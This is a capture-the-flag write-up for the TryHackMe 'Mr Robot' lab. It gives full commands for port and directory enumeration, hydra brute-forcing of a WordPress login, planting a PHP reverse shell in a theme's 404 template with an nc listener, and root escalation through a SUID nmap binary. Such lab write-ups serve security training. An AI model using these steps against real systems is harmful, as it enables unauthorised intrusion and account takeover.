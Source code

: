 # ====================

# Mr Robot CTF WRITE-UP

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

# ====================

![](Images/1.jpeg)

# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HTTP` and `HTTPS` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.

![](Images/2.png)

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```

![](Images/3.png)

Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:

![](Images/4.png)

First we will check for **robots.txt** file and we can see some interesting files:

![](Images/5.png)

File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:

![](Images/6.png)

Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:

![](Images/7.png)

```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D

![](Images/8.png)

Now let's back to log in page, enter **elliot** as username and random password. We get different error message!

![](Images/9.png)

Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)

![](Images/10.png)

Use the credentials to log in to the WordPress site and we are in:

![](Images/11.png)

WordPress is based on php, so we need a php reverse shell to get to the system... The easiest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:

![](Images/12.png)

Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.

![](Images/13.png)

Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thn/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:

![](Images/14.png)

List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.

![](Images/15.png)

We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:

![](Images/16.png)

Now, we can `cat` key-2-of-3.txt file and get the second answer:

![](Images/17.png)

At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...

![](Images/18.png)

We can run NMAP in interactive mod and get the shell:

![](Images/19.png)

And YES, we are root!!! :)

![](Images/20.png)

Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!

![](Images/21.png)

# =========

# ***Stay safe and see ya in the next write-up!***

